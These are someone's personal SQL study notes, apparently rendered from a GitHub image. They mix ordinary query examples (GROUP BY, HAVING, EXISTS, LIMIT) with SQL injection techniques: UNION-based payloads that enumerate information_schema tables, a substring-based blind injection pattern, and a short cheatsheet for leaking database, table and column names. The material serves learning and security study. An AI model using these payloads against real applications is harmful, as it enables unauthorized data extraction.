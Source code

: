 ```sql

select all entried from customer table and displays any order they have

15)to get all tables
select * from users where name = 'Amy' UNION select 1,`TABLE_NAME`,3 from `information_schema`.`TABLES` WHERE `TABLE_SCHEMA` = 'testingfrompython' # can write last part as database() also

16)select * from users where name = 'Amy' UNION select id,name,price from `products` basic union query

17)SELECT COUNT(*) FROM `users` WHERE `name` = 'sdadadas' OR substring(column_name of the table in the query) = '1'
while doing substring attack always enclose substring in () like so (substring('hello',1,1)) = 'h'


this is syntax for substring in mysql

18)SELECT COUNT(CustomerID), Country
FROM Customers
GROUP BY Country;

displays count of each country

The following SQL statement lists the number of orders sent by each shipper:

Example
SELECT Shippers.ShipperName, COUNT(Orders.OrderID) AS NumberOfOrders FROM Orders
LEFT JOIN Shippers ON Orders.ShipperID = Shippers.ShipperID
GROUP BY ShipperName;

19)	SELECT COUNT(CustomerID), Country
FROM Customers
GROUP BY Country
HAVING COUNT(CustomerID) > 5;

having is a like another condition checker similar to where

20)
SELECT SupplierName
FROM Suppliers
WHERE EXISTS (SELECT ProductName FROM Products WHERE Products.SupplierID = Suppliers.supplierID AND Price = 22);

this is how we use the exists command

21)SELECT * from users LIMIT <which entry to show starts from 0>,<how many entries show>

SQL Injection Syntax Cheatsheet
John Hammond

Leak all of the database names as a string
SELECT GROUP_CONCAT( SCHEMA_NAME ) FROM INFORMATION_SCHEMA.SCHEMATA

Leak all of the tables in one database as a string
SELECT GROUP_CONCAT( TABLE_NAME ) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="<DATABASE_NAME>"
TO DO THIS FOR SQLite:

SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table'

Leak the column names of a table as a string

SELECT GROUP_CONCAT( COLUMN_NAME ) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="<TABLE NAME>"
```